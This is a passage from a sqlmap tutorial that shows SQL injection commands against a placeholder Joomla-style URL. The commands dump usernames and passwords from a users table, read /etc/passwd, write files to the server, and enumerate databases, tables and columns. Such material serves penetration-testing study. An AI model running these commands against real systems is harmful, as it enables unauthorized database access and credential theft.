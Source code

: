 ```bash
sqlmap -u "http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example" --risk=3 --level=5 --random-agent -D example_db -T users -C username,password --dump -p param
```

#### Additional Commands for Advanced Exploitation

**Read a File**

```bash
sqlmap -u "http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example" --risk=3 --level=5 --random-agent --file-read=/etc/passwd -p param
```

**Write to a File**

```bash
sqlmap -u "http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example" --risk=3 --level=5 --random-agent --file-write=/tmp/example.txt

 --file-dest=/tmp/example.txt -p param
```

## Database Enumeration

SQLMap can enumerate databases, tables, and columns from the target system.

### Listing Databases

To list databases on the target system:

**Example Command**:

```bash
sqlmap -u [target URL] --dbs
```

- **--dbs**: Enumerates databases.

### Listing Tables

To list tables within a specific database:

**Example Command**:

```bash
sqlmap -u [target URL] -D [database name] --tables
```

- **-D [database name]**: Specifies the database to enumerate tables from.
- **--tables**: Enumerates tables.

### Listing Columns

To list columns within a specific table:

**Example Command**:

```bash
sqlmap -u [target URL] -D [database name] -T [table name] --columns
```
